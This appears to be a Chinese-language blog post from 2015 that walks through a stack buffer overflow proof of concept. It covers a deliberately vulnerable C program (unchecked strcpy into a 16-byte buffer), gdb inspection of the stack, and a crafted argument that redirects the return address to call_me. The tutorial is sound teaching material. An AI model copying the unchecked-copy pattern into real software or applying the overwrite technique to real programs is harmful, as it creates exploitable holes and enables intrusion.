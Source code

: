 ```yaml
---
# MUST HAVE BEG
layout: post
disqus_identifier: 20150604-buffer-overflow-poc # DO NOT CHANGE THE VALUE ONCE SET
title: A Buffer Overflow POC
# MUST HAVE END

is_short: true
subtitle:
tags: 
- gdb
- security
- c
date: 2015-06-04 18:00:00
image: 
image_desc: 
---
```


	#include <stdio.h>
	#include <string.h>

	void call_me() {
	    printf("you called me \n");
	}

	void func1(char *s) {
	    char buf[16];
	    strcpy(buf, s); // buffer may overflow here
	}

	int main(int argc, char **argv) {
	    func1(argv[1]);
	}

实验的环境是Ubuntu 14.04.1，gcc 4.8.2。编译的选项如下，

    $ gcc -m32 -fno-stack-protector -g -static poc.cpp -o poc.out

目标是构造一个输入字符串覆盖函数`func1`的返回地址，使得函数`call_me`被调用到，比如，

    $ ./poc.out some-input-string-to-overflow-buffer

当程序执行到`func1`的时候，[stack][1]大概是这个样子：

    | func1's local variable | 低地址方向
    | like buf[16]           |
    |------------------------|
    | main's ebp             | <= 当前的ebp
    |------------------------|
    | return address         | <= 返回地址，就是func1返回后，main函数应该执行的下一条指令
    |------------------------|
    | main's stack ...       | 高地址方向

如果把上图中的`return address`修改成`call_me`的函数地址就可以让`call_me`被调用到。

通过`nm`可以查看`call_me`的地址（`call_me`两边的字符是C++ name mangling的副作用）

    $ nm poc.out | grep call_me
    08048e24 T _Z7call_mev

用[gdb的tui模式][2]打开可执行文件，

    $ gdb -tui poc.out

<!-- at least one blank line before <div>, <p>, <pre> or <table>,
and one blank after </div>.
but you can use <span>, <cite>, <del> freely -->
<div style="text-align: center;">
  <img src="/images/blog/buf-overflow-poc.png" alt="gdb tui snapshot" >
</div>

	(gdb) set disassembly-flavor intel  # 让gdb在显示汇编时使用intel风格
	(gdb) ctrl-x 2                      # 在tui模式下同时显示代码和汇编窗口
	(gdb) focus asm                     # 焦点设在汇编窗口上，可以用上下箭头滚动窗口
	(gdb) b main                        # 进入程序时，先断住
	(gdb) run abc                       # 运行可执行文件时传入一个参数“abc”

滚动一下汇编窗口可以找到`func1`函数的返回地址`0x8048e6b`，就是`call`指令的下一条指令的地址，

    │0x8048e66 <main(int, char**)+20>        call   0x8048e38 <func1(char*)>
    │0x8048e6b <main(int, char**)+25>        mov    eax,0x0 

让程序执行到`func1`函数里，然后停住。这时，可以检查下stack是不是和上面画的示意图一致。

	(gdb) x $ebp+4
	0xffffcf9c:     0x08048e6b

`$ebp+4`（`+4`，因为可执行程序是编译成32位的）存的就是返回地址，确实是`0x8048e6b`。

函数`func1`对应的汇编指令如下，

     │0x8048e38 <func1(char*)>        push   ebp            
     │0x8048e39 <func1(char*)+1>      mov    ebp,esp     
     │0x8048e3b <func1(char*)+3>      sub    esp,0x28        
    >│0x8048e3e <func1(char*)+6>      mov    eax,DWORD PTR [ebp+0x8]     
     │0x8048e41 <func1(char*)+9>      mov    DWORD PTR [esp+0x4],eax      
     │0x8048e45 <func1(char*)+13>     lea    eax,[ebp-0x18]             
     │0x8048e48 <func1(char*)+16>     mov    DWORD PTR [esp],eax     
     │0x8048e4b <func1(char*)+19>     call   0x80481e0         
     │0x8048e50 <func1(char*)+24>     leave 
   
`call`指令会调用库函数`strcpy()`进行buffer的拷贝。在`leave`指令处设一个断点，检查下buffer拷贝的效果。

    (gdb) b *0x8048e50        #在leave处break

检查一下局部变量`buf[]`对应的内存，看看“abc”是否已经被拷贝到`buf[]`上了。`a`，`b`，`c`对应的ASCII码
为`0x61`，`0x62`，`0x63`。可以通过`man ascii`快速查看一下ASCII码表，

    $ man ascii
       Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
       ────────────────────────────────────────────────────────────────────────
       000   0     00    NUL '\0'                    100   64    40    @
       001   1     01    SOH (start of heading)      101   65    41    A
       ...
       041   33    21    !                           141   97    61    a
       042   34    22    "                           142   98    62    b
       043   35    23    #                           143   99    63    c

在gdb里检查`buf[]`对应的内存，

	(gdb) x/16bx $ebp-16   ＃'b'，以Byte为单位检查内存， '16'，检查16个Byte
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

并没有发现“abc”对应的字节。这是因为内存是以8字节对齐的。扩大内存的检查范围就可以看到`a`，`b`，`c`，

	(gdb) x/24   # 24 = 8 * 3
	0xffffcf80:     0x61    0x62    0x63    0x00    0x50    0xd0    0xff    0xff
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

所以为了覆盖`func1`的返回地址，需要24（`buf[16]`）＋ 4（`ebp`） ＋ 4（`0x08048e24`）＝ 32字节。

	$ ./poc.out 1234567890123456789012345678$'\x24'$'\x8e'$'\x04'$'\x08'
	you called me 
	Segmentation fault (core dumped)

通过`$'\x24'`可以在终端里输入一个非打印字符（详见`man bash`）。因为实验机器的字节序是Little Endian，
低位存放在内存低地址处，所以通过`$'\x24'$'\x8e'$'\x04'$'\x08'`来表示`0x08048e24`。

程序最后出现了Segmentation fault，应该是因为没有为`call_me`设立正确的返回地址导致的。

另外，快速查看机器字节序（Byte Order）的一个方法，
   
	$ lscpu
	Architecture:          x86_64
	CPU op-mode(s):        32-bit, 64-bit
	Byte Order:            Little Endian
   ...

Have Fun😄

[1]: http://www.csee.umbc.edu/~chang/cs313.s02/stack.shtml "stack"
[2]: /gdb-tui-mode.html "gdb tui mode"



